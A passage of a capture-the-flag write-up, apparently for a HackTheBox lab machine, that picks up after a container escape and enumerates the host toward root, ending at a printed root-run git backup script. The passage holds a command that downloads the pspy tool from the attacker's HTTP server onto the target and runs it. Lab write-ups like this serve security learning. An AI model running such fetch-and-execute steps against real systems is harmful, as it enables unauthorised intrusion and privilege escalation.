 We're user `dev01` and successfully escaped the docker container!

**user.txt:**
```
-bash-4.4$ cat /home/dev01/user.txt 
{Redacted}
```

## dev01 to root

**By doing manual enumeration, I saw a process stood out:**
```
-bash-4.4$ ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
[...]
root     31541  0.0  0.0  17640  3912 ?        S    12:32   0:00 git push origin main
```

**Let's upload [pspy](https://github.com/DominicBreuker/pspy) and run it to enumerate deeper:**
```
┌──(root🌸siunam)-[/opt/pspy]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

-bash-4.4$ wget http://10.10.14.42/pspy64 -O /tmp/pspy;chmod +x /tmp/pspy
```

```
-bash-4.4$ /tmp/pspy
[...]
2022/09/17 12:38:01 CMD: UID=0    PID=1060   | /bin/bash /usr/local/bin/git-sync 
2022/09/17 12:38:01 CMD: UID=0    PID=1061   | git status --porcelain 
2022/09/17 12:38:01 CMD: UID=0    PID=1063   | git add . 
2022/09/17 12:38:01 CMD: UID=0    PID=1067   | /bin/bash /usr/local/bin/git-sync 
2022/09/17 12:38:01 CMD: UID=0    PID=1068   | git commit -m Backup for 2022-09-17 
2022/09/17 12:38:01 CMD: UID=0    PID=1073   | /bin/bash /usr/local/bin/git-sync 
2022/09/17 12:38:01 CMD: UID=0    PID=1075   | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git 
```

Hmm... Let's take a look at what the **`/usr/local/bin/git-sync`** does:

```
-bash-4.4$ file /usr/local/bin/git-sync
/usr/local/bin/git-sync: Bourne-Again shell script, ASCII text executable
```

It's a **Bash script** file.

**/usr/local/bin/git-sync:**
```bash
#!/bin/bash

cd /home/dev01/

if ! git status --porcelain; then
    echo "No changes"
else
    day=$(date +'%Y-%m-%d')
    echo "Changes detected, pushing.."
    git add .
    git commit -m "Backup for ${day}"
    git push origin main
fi
```
